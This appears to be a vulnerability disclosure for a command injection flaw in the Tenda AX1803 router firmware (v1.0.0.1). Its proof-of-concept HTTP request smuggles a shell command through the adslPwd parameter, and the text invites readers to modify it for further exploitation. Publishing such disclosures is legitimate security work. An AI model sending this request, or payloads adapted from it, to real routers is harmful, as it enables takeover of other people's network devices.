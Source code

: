 # Tenda AX1803 v1.0.0.1 contains a command injection via the adslPwd parameter in the function form_fast_setting_internet_set

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

<img src="img/0.png" style="zoom:80%;" />

## Vulnerability Description

Tenda AX1803 v1.0.0.1 contains a command injection via the adslPwd parameter in the function form_fast_setting_internet_set.

![](img/4.png)

![](img/5.png)

![](img/6.png)

## POC

```
POST /goform/fast_setting_internet_set HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bpvwtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

netWanType=2&adslUser=aaaa&adslPwd=$(echo 'asada' > /tmp/anza)
```

We trigger a command injection vulnerability after sending the poc, and you may modify this for further exploiting.